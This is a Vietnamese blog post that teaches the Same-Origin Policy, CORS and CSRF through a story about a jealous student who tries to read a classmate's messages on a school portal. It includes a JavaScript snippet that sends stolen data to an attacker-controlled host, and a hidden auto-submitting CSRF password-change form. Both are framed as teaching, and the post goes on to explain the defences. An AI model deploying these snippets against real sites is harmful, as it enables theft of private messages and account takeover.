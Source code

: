 ﻿---
url: [/post/bai-hoc-nho-doi-ve-sop-cors-va-csrf]
title: "Bài học nhớ đời về SOP, CORS và CSRF"
$attribute: PostMetadata(Id = 1, Title = "Bài học nhớ đời về SOP, CORS và CSRF", Category = "Bảo mật", LastModified = "05-10-2025")
$layout: BlogContentLayout
---

Ánh nắng cuối thu vàng óng trải dài trên sân trường, len lỏi qua kẽ lá những 
hàng phượng già. Trong không gian ấy, trái tim non nớt của M, chàng trai mười 
bảy tuổi, thổn thức vì N, cô bạn cùng lớp với mái tóc đen mượt mà và 
nụ cười khiến trái tim bao chàng trai rung động.

Rồi một chiều mưa, M bắt gặp N ngồi trong thư viện, đôi má ửng hồng, 
ngón tay thon thả lướt nhẹ trên màn hình điện thoại. Trái tim M chợt thắt lại khi 
nhận ra N đang nhắn tin rất vui vẻ với D - chàng trai nổi tiếng nhất khối trên 
"Hệ thống học tập trực tuyến" của trường (school-learning.edu.vn).

"Chắc chắn họ đang có điều gì đó!" - M nghĩ thầm. Cơn ghen tuông mù quáng 
bắt đầu gặm nhấm trái tim non nớt của chàng trai.

Đêm ấy, M trằn trọc không yên. Và rồi M quyết định thực hiện một kế hoạch đen tối, đó là 
đọc trộm tin nhắn của N.

# Kế hoạch hoàn hảo... thất bại thảm hại

Biết N nghiện xem phim, M đã thức trắng đêm dựng một trang web xem phim free 
với giao diện tuyệt đẹp có đủ những bộ phim đang hot mà M biết N rất thích. 
Rồi M nhét vào đó một đoạn JavaScript:
```javascript
fetch('https://school-learning.edu.vn/api/private-messages/N', {
  method: 'GET',
  credentials: 'include' // Gửi cả cookie của N
}).then(response => response.json())
  .then(data => {
    // Gửi tin nhắn lấy được về server của M
    fetch('https://phimhay.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

Kế hoạch của M có vẻ hoàn hảo:
- Khi N truy cập vào trang web xem phim của M, đoạn mã JavaScript này sẽ chạy.
- Đoạn mã gửi một request đến server của trường để lấy tin nhắn, 
kèm theo cookie đăng nhập sẵn có của N. Về lý thuyết, server sẽ xem đây 
là request hợp lệ từ N.
- Sau khi lấy được dữ liệu, nó gửi toàn bộ tin nhắn về server do M kiểm soát.

Sáng hôm sau, M hồi hộp mời N vào trang web: 
"Trang này có nhiều phim hay lắm, cậu thử xem đi!"

N mỉm cười cảm ơn và mở trang web. 
M mỉm cười hài lòng. Nhưng rồi...

Trình duyệt báo lỗi đỏ lòm:
```
Access to fetch at 'https://school-learning.edu.vn/api/private-messages/N' 
from origin 'https://phimhay.com' has been blocked by CORS policy: 
No 'Access-Control-Allow-Origin' header is present on the requested resource.

```

Kế hoạch của M thất bại thảm hại.

# Same-Origin Policy (SOP) - Bức tường thành của trình duyệt

Bực tức vì thất bại, M tìm đến K than thở, một đại cao thủ về bảo mật của trường.

K giải thích:
"Cái này là do Same-Origin Policy (SOP) đấy. Nó là chính sách bảo mật của trình duyệt, 
ngăn không các script từ origin này đọc tài nguyên từ origin khác."

"Một origin được xác định bởi 3 thứ:" - K vừa nói vừa vẽ lên bảng:
```
Scheme (Giao thức) + Domain (Tên miền) + Port (Cổng) = Origin
```

Ví dụ:

- https://phimhay.com và https://school-learning.edu.vn khác origin vì domain khác nhau
- http://phimhay.com và https://phimhay.com cũng khác origin vì scheme khác nhau
- https://phimhay.com:80 và https://phimhay.com:3000 cũng khác origin vì port khác nhau


"SOP đã ngăn đoạn script từ phimhay.com của mày đọc được phản hồi từ 
school-learning.edu.vn, dù request đó có được gửi đi và thậm chí server 
có xử lý đi chăng nữa."

# CORS - Cánh cổng có kiểm soát

M thắc mắc: "Vậy làm sao các trang web gọi API từ domain khác được? 
Ví dụ web của tao muốn lấy dữ liệu phim từ TMDB?"

"À, đó là nhờ CORS - Cross-Origin Resource Sharing!" - K giải thích. 
"CORS không phải để vượt qua SOP, mà là một cơ chế cho phép server tự nguyện 
nói với trình duyệt rằng: 'Tôi đồng ý cho origin kia truy cập tài nguyên của mình'."

"Khi trình duyệt thấy script từ phimhay.com gọi API đến school-learning.edu.vn, 
nó sẽ gửi kèm một header Origin: https://phimhay.com. Server của trường sẽ kiểm tra. 
Nếu đồng ý, nó phản hồi với header:"
```http
Access-Control-Allow-Origin: https://phimhay.com
Access-Control-Allow-Credentials: true
```

"Lúc đó, trình duyệt mới cho phép script của mày đọc phản hồi."

"Dĩ nhiên, `school-learning.edu.vn` sẽ không bao giờ đặt header đó cho domain của 
mày đâu. Còn TMDB thì có, vì họ muốn các ứng dụng bên thứ ba sử dụng API của họ."

# CSRF - Cơ hội cuối cùng

M thở dài: "Vậy là bó tay thật sao?"

K mỉm cười: "Đọc dữ liệu thì khó, nhưng thực hiện hành động thì... có thể. 
Vì SOP chỉ ngăn đọc response chứ không ngăn việc gửi request đi.  
Đây chính là cơ sở cho CSRF - Cross-Site Request Forgery."

"CSRF là gì vậy?" M hỏi.

"Giống như ai đó giả mạo chữ ký của mày để xin nghỉ học ấy. Trang web lợi dụng 
việc trình duyệt tự động gửi kèm cookie đăng nhập của mày đến một site khác để 
thực hiện hành động thay mày."

"Ví dụ, nếu hệ thống trường có chức năng đổi mật khẩu đơn giản, chỉ cần POST 
lên một endpoint là mày có thể đổi mật khẩu, mày có thể tạo một form ẩn như này:"
```markup
<!-- Trên web xem phim https://phimhay.com của M -->
<form id="csrfForm" action="https://school-learning.edu.vn/change-password" method="POST" style="display:none">
    <input type="password" name="new_password" value="hacked123">
    <input type="password" name="confirm_password" value="hacked123">
</form>
<script>
    // Tự động submit form khi N truy cập trang
    document.getElementById('csrfForm').submit();
</script>
```

K giải thích tiếp: "Chỉ cần N truy cập trang web của mày, trình duyệt sẽ ngay 
lập tức gửi request đổi mật khẩu đến server trường học. Vì cookie đăng nhập của N 
vẫn còn hiệu lực, request này sẽ được xử lý như chính N thực hiện, 
mà cô ấy không hề hay biết!"

M reo lên: "Hay quá! Vậy là vẫn có cách!"

"Đừng vội!" K ngăn lại, "Các trang web hiện đại đều có cơ chế phòng chống CSRF. 
Phổ biến nhất là CSRF Token - giống như mã OTP cho mỗi form hoặc request quan trọng."

```markup
<!-- Form trên school-learning.edu.vn -->
<form action="https://school-learning.edu.vn/change-password" method="POST">
    <input type="password" name="new_password">
    <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6_random_string">
</form>
```

"Server sẽ kiểm tra token này. Web của mày không thể lấy được token thật từ 
trang web thật của trường (nhờ SOP), nên request giả mạo sẽ thiếu token hợp lệ 
và bị từ chối ngay."

K giải thích thêm: "Ngoài token, các website còn có những cơ chế bảo vệ khác như:"
- Kiểm tra header Origin và Referer: Server sẽ kiểm tra xem request có thực sự 
đến từ domain của chính nó không.
- SameSite Cookie: Thuộc tính cookie có thể được đặt là `SameSite=Strict` 
hoặc `SameSite=Lax` để trình duyệt không gửi cookie trong các request chéo site.

"CSRF thời nay gần như bất khả thi trên các web lớn – trừ khi developer... quên đặt token."


Không lâu sau, hệ thống trường học gửi cảnh báo bảo mật về một request bất thường 
trên tài khoản của N. Buổi chiều hôm ấy, N tìm đến M với ánh mắt nghi ngờ. 
"Có phải cậu đứng sau trang web xem phim đó không?" - N hỏi thẳng. 

M đứng lặng người, mặt tái đi. Cậu không ngờ hệ thống trường học lại phát hiện 
nhanh đến vậy, dù kế hoạch chưa thành công. Chiếc lá vàng cuối cùng rơi xuống khi 
N quay lưng bỏ đi, để lại M trong sự im lặng nặng nề.